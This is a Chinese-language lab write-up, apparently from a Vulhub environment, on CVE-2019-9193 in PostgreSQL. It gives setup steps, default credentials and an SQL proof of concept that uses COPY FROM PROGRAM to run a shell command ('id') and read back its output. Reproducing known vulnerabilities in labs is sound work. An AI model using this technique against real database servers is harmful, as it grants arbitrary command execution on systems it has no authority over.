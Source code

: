 # PostgreSQL 高权限命令执行漏洞 CVE-2019-9193

## 漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 环境搭建

Vulhub启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

## 漏洞复现

连接数据库：

```
psql --host your-ip --username postgres
```

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![image-20220228144351955](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281443076.png)

